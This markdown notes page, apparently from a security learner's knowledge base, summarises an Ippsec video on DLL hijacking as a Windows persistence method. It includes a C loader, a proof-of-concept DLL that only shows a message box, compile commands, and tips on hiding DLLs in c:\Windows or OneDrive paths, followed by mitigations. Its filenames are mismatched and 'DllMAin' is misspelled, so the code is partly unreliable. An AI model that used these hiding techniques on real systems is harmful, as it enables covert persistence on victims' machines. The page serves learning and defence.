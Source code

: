 
## DLL-Hijacking

## Ippsec Video

[Ippsec's All About DLL Hijacking - My Favorite Persistence Method ](https://www.youtube.com/watch?v=3eROsG_WNpE)

bad.dll
```C
#include <windows.h>
#include <stdio.h>

int main( void )
{
	HINSTANCE hDll;
	
	// Load a DLL
	hDll = LoadLibrary(TEXT("bad.dll"));
	
	// If DLL was loaded
	if (hDll != NULL){
		printf("DLL Found\n");
	} else {
		printf("DLL Not Found\n");
	} 

	return 0;
}
```

Hello.c
```c
#include <windows.h>

BOOL WINAPI
DllMAin (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
	switch (dwReason)
	{
		case DLL_PROCESS_ATTACH:
			MessageBox(NULL, //Owner
				"Hello and welcome to DLL hijacking subscribe to Ippsec", // Message
				"ippsec", //Title
				MB_ICONERROR | MB_OK // TYPE
				);
			break;	
		}			
return TRUE;	
}
```

```bash
x86_64-w64-mingw32-gcc-win32 hello.c -o test.exe
x86_64-w64-mingw32-gcc-win32 dll.c -o bad.dll -shared # shared to make it a dll
```

Transfering just the executable and not the dll, using [[Sysinternals-Procmon]] to `Filter -> Process Name is test.exe -> Apply and ok` then running test.exe we can observer path recursion looking for the missing bad.dll. If you write to any of the locations that recursively searched for or we can put it in the current working directory we can do DLL Hijacking. Similarly if we can inject into a misconfigured `%PATH%` where system32 is not the first in the listing we can also perform DLL Hijacking

```powershell
echo %PATH%
```

"Known DLLs" are not Hijackable 
- `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\ControlSession Manager\KnownDLLs`

The power of this persistence method comes from placing the dll in difficult to find locations. 

Ippsec demonstrates that if we can write in `c:\Windows` we can hijack most of the dll's explorer.exe loads from system32 as the recursive search has not yet had to recurse to the child directory. Explorer is relative unique binary in that there are very few in `c:\Windows` directory Ippsec uses `csapi.dll` and points out that some dlls are not really used this being one of them, but is still loaded by explorer.exe. Similiarly he just downloads the dll to OneDrive executable directory and hijacks it by once again placing it within a position in the path to which it will be loaded first.

## Mitigations

- **Append** additional path variables do not **Prepend** default directorys
- Check third party software post-installation directory permissions with `icacls.exe`
	- Commonly third party apps will misconfigure your system that allow for this exploited 


## References

[Ippsec's All About DLL Hijacking - My Favorite Persistence Method ](https://www.youtube.com/watch?v=3eROsG_WNpE)